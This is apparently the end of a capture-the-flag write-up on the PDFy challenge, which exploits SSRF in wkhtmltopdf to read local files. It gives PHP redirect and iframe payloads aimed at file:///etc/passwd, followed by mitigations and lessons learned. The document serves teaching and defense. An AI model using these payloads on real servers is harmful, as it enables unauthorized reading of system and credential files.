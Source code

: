 ## Alternative Exploitation Approaches

### Using PHP (if available)

```php
<?php
header("Location: file:///etc/passwd");
?>
```

### Using iframes (also effective)

An alternative approach would be to use an iframe in HTML:

```html
<iframe src="http://your-server/redirect.php?x=/etc/passwd" width="1000px" height="1000px"></iframe>
```

Where `redirect.php` contains:

```php
<?php 
header('location:file://'.$_REQUEST['x']); 
?>
```

## Mitigation Recommendations

To prevent this type of vulnerability, developers should:

1. **Implement URL Validation**: Only allow specific URL schemes (http, https) and domains
2. **Disable File Protocol**: Explicitly disable the `file://` protocol in wkhtmltopdf with the `--disable-local-file-access` flag
3. **Use a Whitelist Approach**: Only allow conversion of URLs from trusted domains
4. **Update Libraries**: Keep wkhtmltopdf and other dependencies updated to patched versions
5. **Run in Isolation**: Run the PDF generation process in a containerized environment with minimal privileges

## Lessons Learned

1. **Always Validate User Input**: Any user-controlled input that affects server-side operations must be properly validated and sanitized
2. **Understand Your Tools**: Understanding the security implications of libraries like wkhtmltopdf is critical
3. **Protocol Security**: Special attention should be paid to applications that handle multiple URL protocols
4. **Defense in Depth**: Multiple layers of protection are needed when dealing with user-controlled URLs

## Conclusion

The PDFy challenge demonstrates a common vulnerability in web applications that generate PDFs from HTML content. By exploiting the SSRF vulnerability in wkhtmltopdf, we were able to read sensitive files from the target server and obtain the flag.
